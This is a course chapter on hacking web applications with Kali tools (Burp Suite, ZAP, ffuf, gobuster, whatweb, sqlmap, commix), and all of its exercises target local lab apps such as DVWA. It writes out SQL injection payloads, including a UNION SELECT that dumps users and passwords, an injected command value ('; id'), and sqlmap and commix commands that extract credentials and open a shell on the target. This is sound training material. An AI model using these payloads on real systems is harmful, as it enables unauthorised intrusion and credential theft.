

# 08 — Web Application Hacking

> **What you'll learn:** how the web actually works (requests, responses, methods, parameters, cookies), how to sit *in the middle* of that traffic with **Burp Suite** (and the free **OWASP ZAP**), how to discover hidden pages and parameters with **ffuf**/**gobuster**, fingerprint a stack with **whatweb**, and automate SQL and command injection with **sqlmap** and **commix** — always proving the bug by hand first.
> **Prerequisites:** [07 — Vulnerability analysis](07-vulnerability-analysis.md). ⬅️ [Course index](README.md)

This chapter maps to CEH [Module 14 — Hacking Web Applications](../modules/14-hacking-web-applications/README.md) and [Module 15 — SQL Injection](../modules/15-sql-injection/README.md). Read those for the exam theory (OWASP Top 10, XSS/CSRF/SSRF, the SQLi taxonomy); this chapter is the hands-on Kali side.

---

## How the web works, in plain terms
Every time you open a page, your browser sends an **HTTP request** and the server sends back an **HTTP response**. That's the whole conversation. Hacking web apps is mostly *reading and editing these messages*.

A request has four parts:

| Part | Example | What it is |
|---|---|---|
| **Method** | `GET`, `POST` | The *verb* — what you want to do |
| **Path** | `/vulnerabilities/sqli/?id=1` | The page, plus **parameters** after the `?` |
| **Headers** | `Cookie: PHPSESSID=abc123` | Extra info: who you are, what browser, etc. |
| **Body** | `username=admin&password=x` | Data you're sending (mostly on `POST`) |

Terms you'll hear constantly:
- **Parameter** — a named input, like `id=1`. In a URL it's after the `?` (`?id=1&Submit=Submit`); in a form it's in the body. **This is where most injection bugs live** — you tamper the parameter's value.
- **Cookie** — a small token the server gives your browser to remember you're logged in. `PHPSESSID=...` is your session; steal it and you *are* that user.
- **HTTP method** — `GET` fetches (params in the URL), `POST` submits (params in the body). Others: `PUT`, `DELETE`, `HEAD`, `OPTIONS`.
- **Status code** — the response's headline number: `200` OK, `301/302` redirect, `403` forbidden, `404` not found, `500` server error. `404` vs `200` is how discovery tools tell "real page" from "nothing here."

## What a proxy is (and why you need one)
A **proxy** is a middleman that sits between your browser and the website. Instead of the browser talking straight to the server, it talks to the proxy, and the proxy forwards it on. Because everything passes through, you can **pause, read, and edit** each request before it leaves — that's the entire game.



**Burp Suite** is the industry-standard proxy toolkit; it ships with Kali (Community Edition, free). **OWASP ZAP** is the fully free/open-source alternative and does the same core job.

## Setting up Burp Suite (full beginner walkthrough)
Burp is pre-installed on Kali. Launch it from the menu or the terminal:

```bash
burpsuite            # starts Burp; choose "Temporary project" -> "Use Burp defaults"
# You should see the Burp window with tabs: Dashboard, Target, Proxy, Intruder, Repeater...
```

By default Burp listens on **`127.0.0.1:8080`** (`127.0.0.1` = "this same machine," also called *localhost*). Now point Firefox at it.

### Step 1 — Point Firefox at Burp
Firefox has its *own* proxy setting (better than changing the whole system):
1. Firefox **☰ menu → Settings → General → Network Settings → Settings…**
2. Choose **Manual proxy configuration**.
3. **HTTP Proxy:** `127.0.0.1`  **Port:** `8080`
4. Tick **"Also use this proxy for HTTPS"**, then **OK**.

> Easier long-term: install the **FoxyProxy** Firefox add-on and save a profile pointing at `127.0.0.1:8080`, so you can toggle the proxy on/off with one click instead of digging through settings.

Now browse to `http://localhost:8081` (DVWA). In Burp's **Proxy → HTTP history** you should see the requests appear. HTTPS sites will show a certificate warning until you do step 2.

### Step 2 — Install Burp's CA certificate
HTTPS is encrypted, so to read it Burp decrypts and re-encrypts on the fly. Your browser will distrust that unless you tell it Burp's certificate is OK.

1. With the proxy on, browse to **`http://burp`** (or `http://127.0.0.1:8080`) in Firefox.
2. Click **"CA Certificate"** (top-right) to download `cacert.der`.
3. Firefox **Settings → Privacy & Security → Certificates → View Certificates → Authorities → Import…**
4. Select the file, tick **"Trust this CA to identify websites,"** **OK**.

```bash
# You should see: HTTPS lab pages now load through Burp with NO certificate warning.
```

Our lab apps are plain HTTP, so you can start without step 2 — but do it once so real HTTPS practice works.

## Proxy → Intercept: pause a request
**Proxy → Intercept** is the "pause button." When **Intercept is on**, each request stops in Burp until you release it.

1. Burp **Proxy → Intercept** → click **"Intercept is on."**
2. In Firefox, log into DVWA (`admin` / `password`) and submit any form.
3. The request freezes in Burp. Read it — the method, path, cookies, and body are all visible and **editable**. Change a value if you like.
4. Click **Forward** to send it on, or **Drop** to kill it. Turn **Intercept off** to browse normally while still logging everything to **HTTP history**.

> Keep Intercept **off** most of the time and work from **HTTP history** (a full log of every request). Only flip it on when you want to catch one specific request in flight.

## Repeater: tamper one request, over and over
**Repeater** is where you *understand* a bug. It takes one request and lets you edit and resend it as many times as you like, watching how the response changes.

1. In **HTTP history**, right-click the DVWA SQLi request → **Send to Repeater**.
2. Open the **Repeater** tab. On the left is the request; edit the `id` parameter.
3. Change `id=1` to `id=1'` (add a single quote) and click **Send**.
4. Read the response on the right.

```bash
# You should see: an SQL error (or a broken page) when you add the quote --
# that error is the app telling you the input reached the database. You just found SQLi by hand.
```

Repeat with `id=1' OR '1'='1' -- -` and watch more rows come back. **This is the manual-first workflow**: prove the flaw in Repeater one request at a time, *then* automate the tedious extraction. See [Module 15](../modules/15-sql-injection/README.md) for the full manual UNION walkthrough.

## Intruder: fuzz automatically
**Intruder** takes one request and *replays it hundreds of times*, swapping in values from a list — this is **fuzzing** (throwing many inputs at an input to see what breaks). Community Edition is rate-limited (slow) but perfect for learning.

1. Right-click a login request → **Send to Intruder**.
2. On the **Positions** tab, Burp marks insertion points with `§…§`. Click **Clear §**, highlight just the password value, click **Add §** so only that is fuzzed.
3. On the **Payloads** tab, paste a short password list (or load `/usr/share/wordlists/rockyou.txt` — unzip it first, see [10 — Password attacks](10-password-attacks.md)).
4. **Start attack**. Sort the results by **Length** or **Status**.

```bash
# You should see: one response with a DIFFERENT length/status from the rest --
# that outlier is usually the successful login. The odd-one-out is the finding.
```

## Decoder & Comparer (quick tour)
Two small helpers you'll reach for often:
- **Decoder** — encode/decode values. Paste a Base64 or URL-encoded cookie and decode it to read what's inside; re-encode a tampered value before sending. (Web apps love `%20` URL-encoding and `=`-padded Base64.)
- **Comparer** — diff two responses. When a boolean-blind injection returns a "true" page vs a "false" page that look identical, Comparer highlights the byte that changed.

## OWASP ZAP — the free alternative
If you want a 100%-free tool (Burp's Repeater/Intruder are throttled in Community Edition), **OWASP ZAP** does the same core job. It's pre-installed on Kali:

```bash
zaproxy              # launch ZAP; it listens on 127.0.0.1:8080 by default too
# You should see: ZAP's window. Point Firefox at 127.0.0.1:8080 exactly as with Burp.
```

ZAP equivalents: **proxy history**, **Request Editor** (= Repeater), **Fuzzer** (= Intruder), and an **automated scanner**. For beginners either is fine — learn the *concepts* (proxy, tamper, resend) and they transfer between tools.

## Content & parameter discovery: ffuf and gobuster
Apps hide pages that aren't linked anywhere — `/admin`, `/backup`, `/config.php`. **Content discovery** brute-forces paths from a wordlist and keeps the ones that return "real" status codes. Install **SecLists**, the standard collection of wordlists:

```bash
sudo apt install seclists      # installs wordlists into /usr/share/seclists
# You should see: apt download/install; wordlists now under /usr/share/seclists/Discovery/Web-Content/
```

**ffuf** ("fuzz faster u fool") — put the keyword `FUZZ` where you want values inserted:

```bash
# Directory/file discovery -- FUZZ is replaced by each wordlist entry
ffuf -u http://localhost:8081/FUZZ \
     -w /usr/share/seclists/Discovery/Web-Content/common.txt
# You should see: a list of found paths with their status codes (200, 301, 403...).

# Add extensions and only show interesting codes
ffuf -u http://localhost:8081/FUZZ -e .php,.txt \
     -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302

# Parameter discovery -- find hidden GET parameters (-fs 0 hides empty/size-0 replies)
ffuf -u "http://localhost:8081/vulnerabilities/sqli/?FUZZ=1" \
     -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

**gobuster** does the same directory brute-force with a different feel — many people learn on it first:

```bash
gobuster dir -u http://localhost:8081 -x php,txt \
        -w /usr/share/seclists/Discovery/Web-Content/common.txt
# You should see: a live-updating list of found paths (Status: 200/301/403) with sizes.
```

Key flags to remember: `-mc` (match codes) and `-fc`/`-fs` (filter out codes/sizes) in ffuf; `-x` (extensions) and `-b` (blacklist codes) in gobuster. Filtering out the noise is the whole skill.

## whatweb: fingerprint the stack
Before attacking, know what you're attacking. **whatweb** identifies the server, framework, CMS, and versions from the response — a fast first look:

```bash
whatweb http://localhost:8081
# You should see: something like [ Apache, PHP, X-Powered-By, DVWA ] with versions.

whatweb -v http://localhost:8082          # -v = verbose, shows every plugin match (Juice Shop)
whatweb -a 3 http://localhost:8084        # -a 3 = aggressive; more probes, more detail (bWAPP)
```

That tech list tells you which exploits and wordlists are worth trying (a PHP app vs a Node app get very different attacks).

## sqlmap: automate SQL injection (against DVWA)
Once you've **confirmed** injection by hand in Repeater, **sqlmap** automates the tedious extraction. DVWA needs a valid session, so it uses your login cookie. Log into DVWA in Firefox (`admin`/`password`), set **DVWA Security = low**, then copy your cookies (Burp shows them, or Firefox DevTools → Storage).

```bash
# 1) List the databases the app's DB user can see
sqlmap -u "http://localhost:8081/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=<yours>; security=low" --batch --dbs
# You should see: sqlmap confirm the 'id' parameter is injectable, then list DBs (dvwa, information_schema...).

# 2) Drill into the dvwa database, dump the users table
sqlmap -u "http://localhost:8081/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=<yours>; security=low" --batch -D dvwa -T users --dump
# You should see: the users table printed -- usernames and (MD5) password hashes.
```

What the switches mean: `--cookie` sends your session so the page loads; `--dbs` lists databases; `-D dvwa` picks a database; `-T users` picks a table; `--dump` extracts the rows; `--batch` accepts all defaults so it runs non-interactively. The cleanest input of all is a request saved from Burp — `sqlmap -r request.txt`. Full switch reference and the manual UNION method are in [Module 15](../modules/15-sql-injection/README.md).

## commix: automate command injection
When a parameter is passed to the operating-system shell, you can inject OS commands (`; id`). **commix** ("COMMand Injection eXploiter") automates finding and exploiting that. DVWA's **Command Injection** page (`/vulnerabilities/exec/`) takes a `POST` parameter `ip`:

```bash
commix --url="http://localhost:8081/vulnerabilities/exec/" \
       --data="ip=127.0.0.1&Submit=Submit" \
       --cookie="PHPSESSID=<yours>; security=low"
# You should see: commix confirm the 'ip' parameter is injectable and offer a pseudo-terminal --
# type 'id' or 'whoami' to run commands on the target as the web server user.
```

As always: prove it by hand first. In Repeater, set `ip=127.0.0.1; id` and watch `uid=...` appear in the response — *then* let commix do the rest.

## Common beginner mistakes
- **Forgetting the proxy is still on.** With Firefox pointed at `127.0.0.1:8080` and Burp closed, *nothing loads*. Turn the proxy off (or use FoxyProxy) when you're done — this is the #1 "my internet broke" confusion.
- **Leaving Intercept on.** Every page hangs waiting for you to click Forward. Keep Intercept **off**; work from HTTP history.
- **Automating before understanding.** Firing sqlmap/Intruder at a page you haven't probed by hand wastes time and misses context. **Repeater first, always.**
- **Not authenticating your tools.** sqlmap/commix against DVWA fail silently without the right `--cookie` (session *and* `security=low`). Copy both.
- **Pointing tools at the internet.** ffuf/sqlmap/commix are noisy and often illegal off your own systems. **Lab targets only** (`localhost:8081–8084`).
- **Skipping the CA cert**, then being surprised HTTPS sites throw certificate errors in Burp. Install it once (step 2).

## ✅ Practice task
1. Launch Burp, point Firefox at `127.0.0.1:8080`, and browse DVWA — confirm requests appear in **HTTP history**.
2. Run `whatweb http://localhost:8081` and note the server/PHP versions.
3. Discover content: `ffuf -u http://localhost:8081/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt`. List three paths you found.
4. Send the DVWA SQLi request to **Repeater**; add a `'` to `id` and confirm the error, then dump users with `id=1' UNION SELECT user,password FROM users -- -`.
5. Reproduce that dump with `sqlmap ... -D dvwa -T users --dump --batch`. Compare the effort with doing it by hand.
6. On the Command Injection page, prove `127.0.0.1; id` by hand in Repeater, then automate with **commix**.

## Next
➡️ [09 — Metasploit Framework](09-metasploit.md): turning a confirmed vulnerability into a shell — modules, payloads, msfvenom, and Meterpreter.

## Sources
- PortSwigger Web Security Academy (free labs + reference) — https://portswigger.net/web-security
- PortSwigger — Burp Suite documentation — https://portswigger.net/burp/documentation
- OWASP ZAP — https://www.zaproxy.org/
- OWASP Top 10 (2021) — https://owasp.org/Top10/
- ffuf — https://github.com/ffuf/ffuf · gobuster — https://github.com/OJ/gobuster
- SecLists wordlists — https://github.com/danielmiessler/SecLists
- sqlmap — https://sqlmap.org/ · commix — https://github.com/commixproject/commix
- whatweb — https://github.com/urbanadventurer/WhatWeb
